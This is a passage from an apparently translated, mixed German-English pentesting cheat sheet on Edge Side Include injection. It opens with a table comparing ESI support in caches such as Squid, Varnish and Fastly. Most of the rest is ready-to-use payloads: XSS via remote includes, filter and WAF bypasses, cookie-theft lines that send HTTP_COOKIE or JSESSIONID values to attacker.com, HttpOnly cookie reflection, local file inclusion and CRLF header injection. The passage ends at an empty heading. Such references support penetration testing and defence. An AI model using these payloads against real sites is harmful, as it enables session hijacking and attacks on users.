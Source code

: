 |         **Software**         | **Includes** | **Vars** | **Cookies** | **Upstream-Header erforderlich** | **Host-Whitelist** |
| :--------------------------: | :----------: | :------: | :---------: | :-----------------------------: | :----------------: |
|            Squid3            |     Ja      |   Ja    |     Ja     |              Ja                |         Nein       |
|        Varnish Cache         |     Ja      |    Nein  |     Nein    |              Ja                |        Ja         |
|            Fastly            |     Ja      |    Nein  |     Nein    |              Nein               |        Ja         |
| Akamai ESI Test Server (ETS) |     Ja      |   Ja    |     Ja     |              Nein               |         Nein       |
|          NodeJS esi          |     Ja      |   Ja    |     Ja     |              Nein               |         Nein       |
|        NodeJS nodesi         |     Ja      |    Nein  |     Nein    |              Nein               |      Optional      |

#### XSS

Die folgende ESI-Direktive lädt eine beliebige Datei in die Antwort des Servers
```xml
<esi:include src=http://attacker.com/xss.html>
```
#### Umgehung des XSS-Schutzes des Clients
```xml
x=<esi:assign name="var1" value="'cript'"/><s<esi:vars name="$(var1)"/>>alert(/Chrome%20XSS%20filter%20bypass/);</s<esi:vars name="$(var1)"/>>

Use <!--esi--> to bypass WAFs:
<scr<!--esi-->ipt>aler<!--esi-->t(1)</sc<!--esi-->ript>
<img+src=x+on<!--esi-->error=ale<!--esi-->rt(1)>
```
#### Steal Cookie

- Remote steal cookie
```xml
<esi:include src=http://attacker.com/$(HTTP_COOKIE)>
<esi:include src="http://attacker.com/?cookie=$(HTTP_COOKIE{'JSESSIONID'})" />
```
- Stehlen Sie das Cookie HTTP_ONLY mit XSS, indem Sie es in der Antwort reflektieren:
```bash
# This will reflect the cookies in the response
<!--esi $(HTTP_COOKIE) -->
# Reflect XSS (you can put '"><svg/onload=prompt(1)>' URL encoded and the URL encode eveyrhitng to send it in the HTTP request)
<!--esi/$url_decode('"><svg/onload=prompt(1)>')/-->

# It's possible to put more complex JS code to steal cookies or perform actions
```
#### Private Local File

Verwechseln Sie dies nicht mit einer "Local File Inclusion":
```markup
<esi:include src="secret.txt">
```
#### CRLF
```markup
<esi:include src="http://anything.com%0d%0aX-Forwarded-For:%20127.0.0.1%0d%0aJunkHeader:%20JunkValue/"/>
```
#### Open Redirect
